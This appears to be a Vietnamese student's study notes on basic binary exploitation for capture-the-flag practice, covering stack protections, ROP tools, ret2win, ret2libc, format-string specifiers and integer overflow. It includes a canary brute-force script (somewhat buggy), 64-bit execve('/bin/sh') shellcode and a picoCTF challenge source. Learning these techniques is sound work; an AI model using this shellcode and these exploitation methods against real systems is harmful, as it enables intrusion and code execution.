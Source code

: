 > Mục đích: Tổng hợp các kĩ thuật pwn cơ bản

# Checksec

> checksec cho ta biết các bảo vệ nào của file được bật, khi nhìn vào checksec ta có thể đoán được các kĩ thuật khai thác nào có thể không sử dụng được điều này rất qua trọng giúp chúng ta tránh mất thời gian và công sức

### Canary

- Hiểu đơn giản là canary tạo một giá trị hex, đẩy vào cuối stack (thường là trên saved rbp).
- Chức năng của nó là chống bof đến saved rip
  Để bypass được canary: có 2 cách chính

##### leak canary

ta có thể sử dụng FMT để leak giá trị canary. (printf hoặc puts)
printf nếu là fmt sẽ có trong file
ở đây ta có thể sử dụng puts để leak canary

##### Brute force Canary

Do em chưa thử cách này nên cũng chỉ dừng lại ở mức cách brute force

- Hoạt động: ta sẽ OW đến giá trị canary và ghi đè canary ta BF, nếu đúng chương trình thực hiện tiếp, nếu không chương trình sẽ lặp lại
- Nhược điểm: thường khá mất nhiều thời gian.

<details> <summary> Example 1 </summary>

```python
from pwn import *

def connect():
    r = remote("localhost", 8788)

def get_bf(base):
    canary = ""
    guess = 0x0
    base += canary

    while len(canary) < 8:
        while guess != 0xff:
            r = connect()

            r.recvuntil("Username: ")
            r.send(base + chr(guess))

            if "SOME OUTPUT" in r.clean():
                print "Guessed correct byte:", format(guess, '02x')
                canary += chr(guess)
                base += chr(guess)
                guess = 0x0
                r.close()
                break
            else:
                guess += 1
                r.close()

    print "FOUND:\\x" + '\\x'.join("{:02x}".format(ord(c)) for c in canary)
    return base

canary_offset = 1176
base = "A" * canary_offset
print("Brute-Forcing canary")
base_canary = get_bf(base) #Get yunk data + canary
CANARY = u64(base_can[len(base_canary)-8:]) #Get the canary
```

</details>

# PIE
Được hiểu đơn giản là địa chỉ binary động, để có thể bypass, ta có thể leak một địa chỉ nào đó là địa chỉ binary, từ đó tính ngược về địa chỉ base của bin

[link về bypass PIE, Canary khá chi tiết](https://book.hacktricks.xyz/reversing-and-exploiting/linux-exploiting-basic-esp/bypassing-canary-and-pie)
  
 # NX
 Tạm hiểu là chống thực thi trong stack, nghĩa là đánh dấu các vùng không thể thực thi, việc này nhằm tránh việc đưa shellcode vào stack thực thi.
 Khi NX tắt, ta sẽ ưu tiên việc đưa shellcode vào stack
  
# ASLR
  Tạm hiểu là nó sẽ làm ngẫu nhiên hoá các thư viện (Libc) nhằm chống việc leak địa chỉ got plt, ngăn chặn ret@libc
 
 > Tóm lại: Nếu canary bật mà không thể leak được canary thì nó có thể là FMT IOF
  Nếu NX tắt (thông thường là bật): ta sẽ ret2shellcode
  nếu PIE, ASLR bật: ta cần phải leak địa chỉ để tính toán
___ 
# Các công cụ khai thác
* ROPgadget: ROP (Return Oriented Programming), sử dụng các gadget đã có trong chương trình để thay đổi các thanh ghi hoặc các biến trên stack nhằm kiểm soát, chuyển hướng chương trình. Các thanh ghi thường được sử dụng là rdi, rsi, rdx, rcx, r8, r9. 
  * ROPgadget thường được sử dụng để tìm địa chỉ của ret, các thanh ghi mà còn có thể tìm được địa chỉ của một số chuỗi ```ROPgadget --binary tênfile --string 'chuỗi cần tìm'
  * việc tìm chuỗi là cần thiết, hoặc là khi ta không thể dùng gets để ghi vào vùng nhớ nào đó (không có file libc)
* one_gadget: là một số gadget tồn tại trong libc, one_gadget sẽ tìm luôn những execve("/bin/sh", NULL, NULL), và điều kiện là một số thanh ghi cần NULL (có file libc)
> Lưu ý: ROPgadget thường được sử dụng để leak libc, sau đó có thể dùng one_gadget để tạo execve()
  đồng thời k nên ưu tiên leak libc, khi đã có hàm system bên trong file. có một số bài người ra đề có thể tự tạo file libc, lúc ta leak libc thì ra một file libc khác server, việc tính toán sau đó rất mất thời và cay cú.
___
  # Các kĩ thuật BOF
  ### Tràn biến
  nghĩa là ta sẽ thay đổi dữ liệu mà biến đó lưu trữ, việc cần làm của chúng ta là kiểm tra địa chỉ của biến đó, ow đến địa chỉ đó và truyền vào giá trị mà mình mong muốn
  tuy vậy, các bài tràn biến thường đi chung với những phép toán biến đổi, hoặc là giá trị cần thay đổi là số âm, số thập phân  
  Để biến đổi số thập phân sang hex em có sưu tầm được  
  ![image](https://user-images.githubusercontent.com/111769169/225925905-04d8cf4d-fb31-4131-8591-bd849d4ffd52.png)  
  Số âm sang hex
  ![image](https://user-images.githubusercontent.com/111769169/225926621-1618b0ba-eab2-43e6-9ea0-1f67733e453f.png)  
  
  ### ret2win
  Khi canary tắt, ta có thể ow saved rip thành hàm chứa system
  Dạng này hay có lỗi xmm1 (stack không chia hết cho 8), do push khi ta nhảy vào đầu hàm do đó ta sẽ nhảy sâu hơn một xíu nữa để bỏ qua lệnh push gây lỗi
  
  ### ret2shellcode
  Khi NX tắt, ta có thể đưa shellcode vào để thực thi
  do code shellcode = asm khá khó, với một số bài cơ bản thì ta có thể sài các shellcode
  <details> <summary> 64 bit </summary>
    
    shellcode = asm(
    '''
    mov rax, 0x3b
    mov rdi, 29400045130965551
    push rdi
    
    mov rdi, rsp
    xor rsi, rsi
    xor rdx, rdx
    
    syscall
    ''', arch='amd64'
    )
    
  </details>

  ### ret2libc
  GOT: nơi chứa địa chỉ các hàm của libc
  PLT: thực thi hàm được chứa trong GOT
  
  đầu tiên để leak libc, ta có thể sử dụng put@plt để in ra địa chỉ puts@got trên server do puts cần 1 thanh ghi rdi để thực thi
___
  # FMT
  Đối với 32bit: in dữ liệu trên stack  
64bit: 5% đầu của 5 thanh ghi, % thứ 6 là dữ liệu trên stack  
  %{n}$p, in địa chỉ trên stack vị trí thứ n  
  %{n}$c tại vị trí n, nó sẽ in ra byte nó trỏ đến (0x1234 %c sẽ là 0x34)  
  %s là nó sẽ ỉn cho đến khi găp bài 0x00  
  %{n}n đếm số lượng byte được in ra trước đó, rồi ghi vị thứ n  
  %* là pading ví dụ ```%*10$c    # tại vị trí thứ 10, chứa 0x1234``` ở đây %* có nhiệm vụ là tạo ra 0x1234 kí tự rồi %c để in ra 0x1234 kí tự.  
  
  em thấy 1 bài mà em giải khá kĩ [link](https://github.com/wan-hyhty/CTFs_competition/tree/main/utctf) sử dụng cả ret2libc, và dạng dùng con trỏ stack có sẵn để thay đổi dữ liệu (dạng này nói lí thuyết khá khó hình dung nên xem wu sẽ dễ hiểu hơn)
___ 
  # interget overflow
  dạng bài này khá khó nhận biết với những bài khó    
  ta nhớ số không dấu thì giới hạn của nó là 0xff  
  và có dấu thì giới hạn là 0x7f là dương, 0x80 trở lên là âm  
  một bài trong pico thể hiện rõ kĩ thuật IOF _em sẽ update link wu chi tiết_ ở đây là source code của bài
  
  <details> <summary> two-sum </summary>
    
```c
    #include <stdio.h>
    #include <stdlib.h>

    static int addIntOvf(int result, int a, int b) {
    result = a + b;
    if(a > 0 && b > 0 && result < 0)
        return -1;
    if(a < 0 && b < 0 && result > 0)
        return -1;
    return 0;
    }
  
    int main() {
    int num1, num2, sum;
    FILE *flag;
    char c;

    printf("n1 > n1 + n2 OR n2 > n1 + n2 \n");
    fflush(stdout);
    printf("What two positive numbers can make this possible: \n");
    fflush(stdout);
    
    if (scanf("%d", &num1) && scanf("%d", &num2)) {
        printf("You entered %d and %d\n", num1, num2);
        fflush(stdout);
        sum = num1 + num2;
        if (addIntOvf(sum, num1, num2) == 0) {
            printf("No overflow\n");
            fflush(stdout);
            exit(0);
        } else if (addIntOvf(sum, num1, num2) == -1) {
            printf("You have an integer overflow\n");
            fflush(stdout);
        }

        if (num1 > 0 || num2 > 0) {
            flag = fopen("flag.txt","r");
            if(flag == NULL){
                printf("flag not found: please run this on the server\n");
                fflush(stdout);
                exit(0);
            }
            char buf[60];
            fgets(buf, 59, flag);
            printf("YOUR FLAG IS: %s\n", buf);
            fflush(stdout);
            exit(0);
        }
    }
    return 0;
    }
```
    
  </details>
  
# dự định cho bài báo cáo lần 2
em sẽ tìm hiểu privilege_escalation (Leo thang đặc quyền)
  

